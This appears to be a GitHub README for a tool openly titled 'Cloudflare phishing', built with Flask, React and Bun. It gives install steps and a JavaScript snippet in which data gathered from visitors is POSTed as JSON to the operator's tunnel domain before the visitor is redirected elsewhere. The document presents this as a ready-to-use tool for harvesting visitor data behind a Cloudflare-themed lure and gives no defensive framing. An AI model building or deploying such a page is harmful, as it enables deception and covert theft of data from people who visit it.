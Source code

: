![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-000000?style=for-the-badge&logo=flask&logoColor=white)
![React](https://img.shields.io/badge/React-20232A?style=for-the-badge&logo=react&logoColor=61DAFB)
![TypeScript](https://img.shields.io/badge/TypeScript-007ACC?style=for-the-badge&logo=typescript&logoColor=white)
![Tailwind CSS](https://img.shields.io/badge/Tailwind_CSS-38B2AC?style=for-the-badge&logo=tailwind-css&logoColor=white)
![Bun](https://img.shields.io/badge/Bun-000000?style=for-the-badge&logo=bun&logoColor=white)

# Cloudflare phishing

## That's useful thing for gathering meta-datas by using redirect in other sites.

---

### Getting start

- Installing dependencies

```bash
# In directory Frontend you have to install dependencies for bun
$ bun install

# In directory Server, you have to install flask from requriments.txt
$ pip install -r requriments.txt
```

### CHANGES

- In directory Frontend, exists file App.tsx, you have to change below:

```js
// Redirect
setTimeout(() => {
  window.location.href = "http://<DOMAIN FOR REDIRECT>";
}, 1000);

// Your tunnel
const response = await fetch("http://<DOMAIN YOUR TUNNEL>", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify(data),
});
```

![Cloudflare](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Faetoswire.com%2Fstorage%2Fclients%2Fclient-6590%2Fcloudflare-logo.png&f=1&nofb=1&ipt=f3aa7db60d7aff2b18233ec9b7657ca42488796ee5df52b2116aadb56b27bc3e)
